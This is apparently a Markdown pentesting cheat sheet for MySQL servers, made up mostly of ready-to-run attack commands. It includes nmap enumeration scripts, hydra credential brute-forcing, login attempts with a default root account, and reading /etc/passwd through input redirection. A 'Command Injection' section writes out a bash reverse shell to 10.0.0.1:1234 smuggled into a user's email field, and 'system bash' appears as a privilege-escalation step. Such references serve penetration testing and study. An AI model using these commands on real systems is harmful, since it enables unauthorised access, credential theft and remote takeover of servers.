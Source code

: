 ```yaml
---
title: MySQL Pentesting
description: It is a relational database management system. A default port is 3306.
tags:
    - Database
    - Privilege Escalation
refs:
date: 2023-10-30
draft: false
---
```


## Enumeration

```sh
nmap --script mysql-info -p 3306 <target-ip>
nmap --script mysql-enum -p 3306 <target-ip>
nmap --script mysql-brute -p 3306 <target-ip>
nmap --script mysql-databases -p 3306 <target-ip>
nmap --script mysql-users -p 3306 <target-ip>
nmap --script mysql-* -p 3306 <target-ip>
```

### Brute Force Credentials

```sh
hydra -l username -P passwords.txt <target-ip> mysql
hydra -L usernames.txt -p password <target-ip> mysql
```

<br />

## Configuration Files

```sh
cat /etc/mysql/my.cnf
cat /etc/mysql/mysql.conf.d/mysqld.cnf
```

<br />

## Connect

`mysql` command can be replaced with `mariadb` .

### Local

```sh
# No password
mysql -u username

# With Password
mysql -u username -p

# Specity database name
mysql -u username -p database_name

# Execute commands
mysql -u username -p database_name -e "show databases;"
echo '<password>' | mysql -u username -p database_name -e "show databases;"

# Execute commands via a file
echo 'show tables;' > example.sql
mysql -u username --password='password' database_name -v < example.sql

# Read arbitrary files
mysql -u username --password='password' database_name -v < /etc/passwd
```

### Remote

```sh
mysql -u username -p -h <target-ip> -P 3306

# Without password (remove -p)
mysql -u username -h <target-ip> -P 3306

# Specify database (-D)
mysql -u username -p -h <target-ip> -D database_name

# Default credential (username: root, no password)
mysql -u root -h <target-ip> -P 3306
```

<br />

## Commands

After connecting MySQL, you can load a local `.sql` file.  
Note that you need to change the current directory to the directory in which the `.sql` file is located.

```sh
> source example.sql
```

Belows are basic commands.

```sh
# Display databases
> show databases;

# Switch to the database
> use db_name;

# Display tables in the current database
> show tables;
# Display tables and table type
> show full tables;
# Display tables in the database
> show tables from <database>;
# Display tables which names start with 'user'
> show tables like 'user%';
# Display tables which names start with 'user' in the database
> show tables from <database> like 'user%';

# Display columns in a given table
> show columns from <table>;

# Display everything in the table
> select * from <table>;

# Create new table
> create table table_name(column_name column_type);
> create table table_name(user_id int, user_name varchar(40));

# Create an user-defined function
> create function func_name(param1, param2) returns datatype;
> create function new_fund(age integer) returns integer;

# Use a function
> select func_name(param1, param2);

# Insert new record to a given table
> insert into <table> values(value1, value2);

# Update data in a given table
> update <table> set <column>='<value>'
> update <table> set <column1>='<value1>',<column2>='<value2>'
# e.g.
> update users set role='admin' where username='john';
```

### Command Injection

We can inject the OS command to column values e.g. email address.  
Depending on the situation, we may be able to execute arbitrary command.

```bash
# Update existing user email to execute reverse shell
> update exampledb.users SET email='admin@shell|| bash -c "bash -i >& /dev/tcp/10.0.0.1/1234 0>&1" &' where name like 'admin%';
```

### System Commands

We can run the system command in MySQL shell as below. Depending on the situation, we may be able to escalate privileges.

```bash
mysql> system whoami
mysql> system bash
```
